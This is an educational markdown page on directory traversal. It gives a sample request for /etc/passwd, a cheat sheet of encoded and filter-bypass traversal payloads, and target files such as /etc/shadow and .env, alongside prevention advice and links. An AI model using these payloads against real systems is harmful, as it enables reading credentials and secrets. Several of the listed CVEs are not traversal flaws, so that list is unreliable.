 # Directory Traversal / Path Traversal

## Overview
Directory traversal, also known as path traversal, is a security vulnerability that allows an attacker to access files and directories stored outside the intended web root folder. Exploiting this flaw may lead to unauthorized access to sensitive files, configuration files, or even system-level resources.

## How It Works
This vulnerability arises when user-supplied input is not properly sanitized before being used in file system operations. By injecting special characters like `../` (dot-dot-slash), attackers can manipulate file paths to traverse up the directory structure and access restricted files.

### Example Request
```
GET /files/../../../etc/passwd HTTP/1.1
Host: vulnerable-website.com
```

## 🔐 Payload Cheat Sheet

### Basic Traversals
- `../` — Unix-style path traversal
- `..\\` — Windows-style path traversal
- `../../etc/passwd` — Multi-level traversal
- `..%2F` — URL-encoded `../`
- `..%5C` — URL-encoded `..\\`

### Obfuscated / Filter Bypass Payloads
- `..%252f` — Double-encoded `../`
- `....//....//` — Trick filters into allowing traversal
- `....\\\\....\\\\` — Windows obfuscation
- `%2e%2e%2f` — Encoded `../`
- `%2e%2e/` — Alternative encoding
- `..%c0%af` — Unicode-encoded slash
- `../../../etc/passwd%00.png` — Null byte injection to bypass file extensions

## 🗂 Common Target Files
- `/etc/passwd` — Linux user accounts
- `/etc/shadow` — Linux password hashes
- `/proc/self/environ` — Environment variables
- `.env` — Environment configuration (contains secrets)
- `WEB-INF/web.xml` — Java web app config
- `C:\Windows\win.ini` — Windows system config

## 💥 Impact
- Disclosure of sensitive configuration files
- Leakage of credentials or API keys
- Access to application source code
- Information leakage about server or environment
- Possibility of remote code execution (via chained exploits)

## 🛡️ Prevention

1. **Sanitize and Validate Input**  
   - Reject dangerous characters and patterns like `../`, `%00`, or encoded traversal sequences.  
   - Use allow-lists for filenames and extensions.

2. **Use Secure File APIs**  
   - Normalize file paths using secure functions (e.g., `realpath()` in PHP or Python).

3. **Enforce Access Controls**  
   - Restrict file access using file system permissions and sandboxing techniques.

4. **Monitor and Log Access**  
   - Log all file access attempts and monitor for repeated suspicious behavior.

5. **Perform Regular Audits**  
   - Conduct regular penetration testing, source code reviews, and use static analysis tools.

## 📚 Resources
- [PortSwigger - Directory Traversal](https://portswigger.net/web-security/file-path-traversal)
- [OWASP - Directory Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [Acunetix - Directory Traversal](https://www.acunetix.com/websitesecurity/directory-traversal/)

## 🧨 CVE Examples
- [CVE-2017-5638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5638) - Apache Struts
- [CVE-2021-22986](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22986) - F5 BIG-IP
- [CVE-2020-1938](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938) - Apache Tomcat (Ghostcat)
- [CVE-2020-36289](https://nvd.nist.gov/vuln/detail/CVE-2020-36289) - OpenAsset traversal with `....//....//`

---

